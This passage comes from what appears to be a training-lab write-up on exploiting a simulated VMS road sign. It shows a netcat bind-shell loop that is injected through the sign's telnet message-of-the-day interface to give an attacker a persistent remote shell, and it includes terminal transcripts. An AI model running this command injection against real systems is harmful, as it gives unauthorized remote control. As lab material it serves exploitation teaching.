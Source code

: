 
When the attacker connects to the `netcat` listener on the VMS they might accidentally press the <kbd>Ctrl</kbd> + <kbd>C</kbd> key combination which will terminate the `netcat` program on the server side (i.e. on the VMS sign) and they won't be able to connect back to it.  We can easily address this problem by putting our `nc` command in an infinite loop.  This way, if the attacker terminates the `nc` program it will automatically be restarted and they can simply connect again.  The following will be our final command for the proof-of-concept exploit.

```
while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done
```

#### Final Proof-of-Concept Exploit

Now that we finally have all the pieces we need to accomplish our client's objective #2 let's put things together one more time.

First, restart the VMS system again to get it back to the original state.  After the VMS restarts connect to the VMS Administrative Interface via the telnet client and change the message of the day to '`while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done`' as shown below.

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: <REDACTED>

You entered the correct password!

Enter the new message of the day: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

The message of the day is now: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

Connection closed by foreign host.
student@revm:~$ 
```

Reconnect to verify that the `signApp` process is still running and that the message of the day is what we intend as shown below.

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done

If you enter the correct password you can change the message of the day.

password: ^]
telnet> quit
Connection closed.
student@revm:~$ 
```
